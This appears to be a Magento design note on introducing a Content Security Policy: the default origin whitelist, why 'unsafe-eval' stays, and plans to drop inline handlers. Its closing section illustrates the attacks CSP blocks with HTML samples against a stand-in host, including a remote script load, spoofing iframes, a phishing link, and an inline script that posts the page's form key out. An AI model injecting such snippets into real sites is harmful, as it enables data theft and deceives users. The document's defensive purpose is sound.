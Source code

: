 ## Default CSP
Magento uses some JavaScript libraries but usually has them provided with Magento itself without including
them from 3rd party resources so for most cases having *-src directives with 'self' value will be enough. In some .phtmls
we set event listener via attributes and we use eval in template.js so we'd have to also allow
'unsafe-inline' and 'unsafe-eval'. Magento has integrations with multiple 3rd party services like vimeo, youtube,
google analytics and various payment systems which we must whitelist additionally.
That will be the default whitelist Magento provides out of the box packaged alongside related modules via _csp\_whitelist.xml_.
 
## Future steps
To allow merchants to use whitelisting with _hash_ we have to get rid of event handlers provided via HTML attributes and
style attributes in our templates. There is no way to disable `unsafe-eval` right now since we use it for UI components and
some of the front-end libraries we employ need it (like jQuery). A strategy must be created to remove `eval()` usage
from UI components.
 
The work on refactoring templates to remove event handlers and _style_ attributes will be done after CSP is introduced
gradually. In the meanwhile Merchants will be able to employ origin-whitelisting for CSP. Extension developers will
have time to update their extension to allow both _origin-whitelisting_ and _hash whitelisting_.
 
## Types of attacks that will be prevented by CSP implementation in Magento
#### CSP with origin whitelisting only
* Forcing browser to send requests to malicious pages
```html
<img src="http://my-evil-website.com/log-user.php" />
```
* Loading malicious scripts performing complex operations
```html
<script src="http://my-evil-website.com/do-evil-stuff.js" />
```
* Spoofing content
```html
<link rel="stylesheet" src="http://my-evil-website.com/different-looking-page.css" />
<iframe src="http://my-evil-website.com/mypage" style="position: absolute" width="100%" height="100%" />
```
* Malicious links
```html
<a href="http://my-evil-website.com/my-fake-page">Click this to improve Magento performance!</a>
```
* Small (inline) scripts sending data to malicious websites
```html
<script>
    let xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://my-evil-website.com/collect-form-keys');
    xhr.send(JSON.stringify({formKey: window.FORM_KEY}));
</script>
```
 